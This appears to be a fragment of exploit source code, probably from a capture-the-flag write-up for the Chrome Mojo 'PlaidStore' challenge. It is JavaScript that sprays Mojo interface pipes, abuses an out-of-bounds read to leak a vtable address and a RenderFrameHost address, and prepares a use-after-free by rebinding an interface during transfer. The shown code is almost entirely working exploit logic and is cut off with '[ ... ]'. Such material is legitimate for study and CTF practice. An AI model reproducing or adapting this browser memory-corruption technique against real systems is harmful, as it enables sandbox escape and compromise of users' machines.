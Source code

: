 ```javascript
async function OOB()
{
    var leak_success = false;
    if(window.location.hash == "#child"){

        window.addEventListener("message", (event) => {
            if(event.data == "UAF"){
                var pipe = Mojo.createMessagePipe();
                Mojo.bindInterface(blink.mojom.PlaidStore.name, pipe.handle1, "context", true);
                //This endpoinnt will be intercepted during the transfer because of the "process" scope.
                Mojo.bindInterface(victim_interface_name, pipe.handle0, "process", true);
            }
        });

        console.log("[+] Start to leak the address.");
        var times = 0x100;
        var interfaces = [];
        for(var i = 0; i < times; i++){
            //Create a MessagePipe. Return two pipe handles.
            var pipe = Mojo.createMessagePipe();    
            //Bind the remote side of plaidstore       
            var remote_side = new blink.mojom.PlaidStorePtr(pipe.handle0);
            //Transfer the pipe handle1 and bind the receiver side of plaidstore
            Mojo.bindInterface(blink.mojom.PlaidStore.name, pipe.handle1, "context", true);
            //Create a OOB vector
            var padding = new Array(0x28).fill(0).map((element, index) => {return index;});
            remote_side.storeData("exp",padding);
            interfaces[i] = remote_side;
        }
        for(var i = 0; i < times; i++){
            if (typeof(interfaces[i]) === "undefined") console.log("[!] mojo connection creation fail.");
        }
        for(var i = 0; i <  times; i++){
            //leak data
            var leak_data = (await interfaces[i].getData("exp", 0x100)).data.slice(0x0, 0x100);

            for(var j = 0; j < (leak_data.length / 8); j++){
                var slice_8b = leak_data.slice(j * 8, (j + 1) * 8);
                var slice_smi = byte2smi(slice_8b);
                //the priority of "==" is higher than "&" 
                //so this bracket is necessary
                //use the lowest twelve bits and the highest four bits as the sentinel value
                if(((slice_smi[0] & 0xfff) == 0x7a0) && ((slice_smi[1] >> 12) == 0x05))
                {
                    var vtable_addr = slice_smi;
                    var RFH_addr = byte2smi(leak_data.slice((j + 1) * 8, (j + 2) * 8));
                    window.parent.postMessage([vtable_addr, RFH_addr], "*"); //[1]
                    //return [vtable_addr, RFH_addr];
                    leak_success = true;
                    break;
                }
            }
        }

        if(leak_success == false) console.log("[!] fail to leak.");

        return "child";

    }
   [ ... ]
}
```